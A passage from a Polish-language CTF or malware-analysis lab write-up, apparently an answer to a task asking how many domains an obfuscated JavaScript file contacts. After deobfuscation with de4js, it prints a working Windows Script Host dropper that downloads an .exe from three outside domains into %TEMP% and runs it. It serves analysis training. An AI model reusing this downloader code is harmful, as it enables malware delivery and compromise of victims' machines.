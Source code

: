 
Gdy uruchomimy plik .js, to nie zobaczymy niestety żadnego FQDN, dlatego że kod został zaobfuskowany. Różne analizery wykazały obecność jedynie jednej domeny, jednak ta odpowiedź jest nieprawidłowa, zatem musimy dokonać deobfuskacji kodu, korzystamy zatem z narzędzia *de4js*. Wklejamy zobfuskowany kod i wybieramy opcję *Eval*.
Otrzymujemy poniższy kod:

```javascript
var b = "kennedy.sitoserver.com nzvincent.com abama.org".split(" ");
var ws = WScript.CreateObject("WScript.Shell");
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + "799755";
var xo = WScript.CreateObject("MSXML2.XMLHTTP");
var xa = WScript.CreateObject("ADODB.Stream");
var ld = 0;
for (var n = 1; n <= 3; n++) {
    for (var i = ld; i < b.length; i++) {
        var dn = 0;
        try {
            xo.open("GET", "http://" + b[i] + "/counter/?id=" + str + "&rnd=309034" + n, false);
            xo.send();
            if (xo.status == 200) {
                xa.open();
                xa.type = 1;
                xa.write(xo.responseBody);
                if (xa.size > 1000) {
                    dn = 1;
                    xa.position = 0;
                    xa.saveToFile(fn + n + ".exe", 2);
```

<div style="page-break-after: always;"></div>

```javascript
                    try {
                        ws.Run(fn + n + ".exe", 1, 0);
                    } catch (er) {};
                };
                xa.close();
            };
            if (dn == 1) {
                ld = i;
                break;
            };
        } catch (er) {};
    };
};
```

Jak widzimy zmienna *b* zawiera wszystki FQDN i jest ich razem 3.

**Odpowiedź**: `3`

## **Zadanie 11**
